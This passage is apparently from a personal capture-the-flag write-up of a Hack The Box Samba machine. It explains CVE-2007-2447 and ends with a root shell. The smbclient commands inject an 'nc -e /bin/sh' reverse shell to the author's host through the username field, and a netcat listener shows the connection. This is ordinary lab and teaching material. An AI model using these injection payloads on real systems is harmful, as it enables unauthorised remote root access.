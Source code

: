 ```
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                                                                                          | multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                                                                                           | linux/remote/364.pl
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                      | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                      | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                              | linux_x86/dos/36741.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

—and voilà!

That "'Username' map script' Command Execution" looked interesting, so I started reading more on that –  which lead me to [CVE-2007-2447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447). "[...] allows remote attackers to execute arbitrary commands via shell". Perfect.

I looked it up in Rapid7's Vulnerability & Exploit Database and got a simplified explaination of what makes this vulnerability tick. Apparently, passing a username containing shell meta characteres confuses one of the functions that calls external scripts defined in Samba config. Or something like that. [Here](https://www.samba.org/samba/security/CVE-2007-2447.html) is Samba's blog post for this vulnerability on their product and [here](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) is Rapid7's explaination of it.

I didn't want to use Metasploit on this and just be done with it, though looking at that Rapid7 page, that does seem to be the easiest way to pwn this box. [Line 74](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/samba/usermap_script.rb#L74) of the source code linked on that page did give me an idea, though. I was hoping something like the following would work—

```
┌──(thatvirdiguy㉿kali)-[~]
└─$ smbclient -N \\\\10.10.10.3\\ADMIN$ -U './=`nohup nc -e /bin/sh 10.10.16.4 1234`'       
session setup failed: NT_STATUS_LOGON_FAILURE
```
—but that didn't seem to be the case. Here, "nc -e /bin/sh 10.10.16.4 1234" is the payload. I was trying to get a reverse shell on my machine (10.10.16.4), on the specified port (1234), but for reasons beyond me, it was wasn't working. Until, that is, I stumbled upon [this](https://askubuntu.com/questions/109507/smbclient-getting-nt-status-logon-failure-connecting-to-windows-box) useful discussion over at the Stack Exchange forums.

Modified my command to the following—

```
┌──(thatvirdiguy㉿kali)-[~]
└─$ smbclient -N \\\\10.10.10.3\\ADMIN$ -U DOMAIN/'./=`nohup nc -e /bin/sh 10.10.16.4 1234`'
```

—while I had `nc` listening for connections on port 1234 on another terminal.

```
┌──(thatvirdiguy㉿kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...

10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.3] 35704

whoami
root

```
